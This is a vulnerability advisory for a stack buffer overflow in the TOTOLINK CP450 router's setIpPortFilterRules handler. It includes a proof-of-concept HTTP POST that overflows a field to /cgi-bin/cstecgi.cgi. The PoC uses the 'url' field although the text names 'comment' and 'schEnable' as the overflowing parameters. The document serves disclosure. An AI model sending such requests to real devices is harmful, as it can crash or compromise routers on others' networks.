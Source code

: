## CP450 stack buffer overflow

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

In the function `setIpPortFilterRules`, attackers can post the parameter `comment` and `schEnable` to `src` and `v13` without checking its' length. 

![image-20240421163827190](./img/1.png)

Then in line 90 and 91, the call to function `strcpy` will lead to stack overflow.

![image-20240421163827190](./img/2.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 320
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/firewall/ipport_filtering.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setIpPortFilterRules",
    "addEffect": "0",
    "url": "a"*0x100
}
```

![image-20240421163827190](./img/3.png)
